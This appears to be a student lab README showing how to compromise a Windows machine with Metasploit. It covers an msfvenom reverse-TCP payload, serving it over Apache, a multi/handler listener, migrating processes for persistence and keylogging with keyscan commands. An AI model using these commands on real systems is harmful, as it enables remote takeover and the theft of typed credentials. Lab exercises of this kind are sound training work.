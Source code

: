 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:
Step 1: Install kali linux either in partition or virtual box or in live mode
Step 2: Investigate on the various categories of tools as follows:
Step 3: Open terminal and try execute some kali linux commands

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/0dd3d067-aba5-458c-9ae0-dc8287c7228e)


Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe.


![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/d3ccdc73-0cf7-4c28-859f-30d6912bc614)


copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/1753dc20-b629-41be-8f4f-3059ea1ccac3)


Start apache server sudo systemctl apache2 start

![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/8b15cfae-eeea-45e9-8dd5-9949e1775d08)

Check the status of apache2
Invoke msfconsole: msfconsole



![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/2b781436-eea0-4609-bd43-c0a1fbd92834)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/ad4589ab-c275-4f10-a667-d3e393339177)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit css


![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/cc3b7ab2-dd6b-476c-a98b-bb2727669621)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.


![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/9a147d92-87a4-46c7-8ee7-a5df75e47463)


Bypass any warning boxes, double-click the file, and allow it to run.


![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/38950493-c57d-4afb-835b-cdc946e9b0f6)

On kali give the command exploit

![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/22217eab-0577-4df0-b438-fb73c13b1ca1)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156


![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/74d5af80-b9d5-4175-ab54-6014339dcb8a)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted.

![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/15d5a3da-048d-4646-a9a6-b3804542ff37)


Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/4d1ae16f-5053-4ab4-898e-e38e606f2b91)


keyscan_dump Shows the keystrokes captured so far.

![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/95831af7-2bb6-43da-943e-360a3bdca497)





## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

